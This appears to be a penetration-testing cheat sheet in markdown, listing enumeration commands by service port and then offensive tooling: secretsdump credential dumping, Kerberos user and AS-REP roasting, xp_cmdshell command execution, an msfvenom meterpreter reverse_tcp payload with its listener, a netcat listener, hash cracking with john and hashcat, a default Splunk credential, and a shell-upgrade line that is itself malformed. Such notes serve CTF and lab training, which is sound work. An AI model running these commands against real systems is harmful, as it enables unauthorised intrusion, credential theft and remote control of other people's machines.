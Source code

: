 # Recon & Enum
## The basic
Data and information gathering.

## [nmap](https://nmap.org/book/man.html)
1. Host scan
```
nmap -p 1-65535 -v -A -Pn [IP_ADDR]
nmap -sC -sV -A -p- -v [IP_ADDR]
```

## Commonly seen port (Default port num)
### FTP (21)
```
ftp [IP_ADDR]
anonymous sign in
```

### SSH (22)
```
ssh [USERNAME]@[IP_ADDR] [PORT]
ssh [USERNAME]@[IP_ADDR] -i id_rsa    # chmod 600 id_rsa
ssh -i id_rsa [USERNAME]@[IP_ADDR] -L [LOCAL_PORT]:localhost:[REMOTE_PORT]   # ssh port forwarding  

ssh2john.py id_rsa > hash   # encrypted id_rsa
john hash --wordlist=/opt/wordlists/rockyou.txt
```

### DNS (53)
```
dig axfr [DOMAIN].[TLD] @[IP_ADDR]
```

### HTTP (80) / HTTPS (443)
```
gobuster dir -u [URL] -w [WORDLIST]   # Files enumeration
ffuf -u http://[IP_ADDR]/ -H "Host: FUZZ.[DOMAIN]" -w /seclists/Discovery/DNS/shubs-subdomains.txt -t 100 -fl 10
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]
cewl [URL]    # get possible password from site
```

### Kerberos (88)
```
kerbrute userenum --dc [DOMAIN] -d [DOMAIN] [WORDLIST]    # enum user
GetNPUsers.py [DOMAIN]/[USERNAME] -request -no-pass -dc-ip [IP_ADDR]    # get user that does not require kerberos preauth
secretsdump.py -dc-ip [IP_ADDR] [DOMAIN].local/[USERNAME]:[PASSWORD]@[IP_ADDR]    # retrieve all of the password hashes
```
Ref: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

### Network File System (111 & 2049)
```
showmount -e [IP_ADDR]
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
```

### SMB (445)
```
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] -D [DOMAIN] -U [USERNAME]    # Sign in with username
smbmap -H [IP_ADDR] -u [USERNAME]
lookupsid.py anonymous@$[IP_ADDR]   # with IPC$ readonly permission
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADDR]   # with ADMIN$ write permission
```
MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016
SMB share folder mounting
```
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```
Mounting VHD file
Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

### Microsoft SQL (1433)
```
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
```

### MySQL (3306)
```
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'SHOW DATABASES;'
mysql -u [USERNAME] -h [IP_ADDR] -p -e 'USE [DATABASE]; SHOW TABLES;'
```

### RDP (3389)
```
rdesktop -u [USERNAME] [IP_ADDR]:[PORT]
```

### Redis (6379)
```
redis-cli -h [IP]   # without auth
redis-cli -h [IP] -a [PASSWORD]   # auth required
----------
info
keys *
type [KEYS]
get [KEYS]    # strings
lrange [KEYS] [1] [64]    # list
----------
```

### Apache Tomcat (8080)
```
Default page:
/admin
/manager
/manager/html
```

### SPLUNK (8089)
```
Default Credential 
admin:changeme
```

# Working with MSFVENOM and MSFCONSOLE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
## Cisco router password cracker
https://github.com/axcheron/cisco_pwdecrypt  
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

## Netcat
Listener (on attacker machine)
```
nc -lnvp [PORT]
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

## John
```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```

## Hashcat
```
hashcat -a 3 -m 0 [HASH_FILE] /usr/share/wordlists/rockyou.txt    # -a 3 bruteforce attack; -m 0 MD5 mode
```
Ref: https://hashcat.net/wiki/doku.php?id=example_hashes

## Python
```
python3 'import pty;pty.spawn("/bin/bash");'
```

